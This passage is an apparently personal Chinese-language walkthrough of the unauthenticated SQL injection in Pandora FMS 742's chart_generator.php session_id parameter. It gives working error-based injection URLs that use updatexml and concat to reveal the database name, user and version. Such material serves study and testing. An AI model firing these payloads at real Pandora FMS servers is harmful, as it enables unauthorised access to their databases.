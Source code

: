 + 由[Pandora FMS 742: Critical Code Vulnerabilities Explained](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)可知，Pandora FMS 742 存在四种漏洞，其中未经身份验证的SQL注入可利用点为/include/chart_generator.php的session_id：

+ 尝试构建payload:

  1. 判断sql注入类型：

      ```
      /include/chart_generator.php?session_id=1
      /include/chart_generator.php?session_id=1'
      ```
      ![](/style/image/2024-01-30-23-00-45.png)
      ![](/style/image/2024-01-30-23-01-51.png)

    + 初步判断为报错注入，且数据库类型为`MariaDB`,查询数据表为`tsessions_php`,其中一个字段为`id_session`

  2. 显示当前库：

      ```
      /include/chart_generator.php?session_id=1' and info()--+
      ```
      ![](/style/image/2024-01-30-23-05-30.png)

    + 当前库为`pandora`

  3. 获取数据库敏感信息：

      ```
      /include/chart_generator.php?session_id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
      /include/chart_generator.php?session_id=1' and (updatexml(1,concat(0x7e,(select version()),0x7e),1))--+
      ```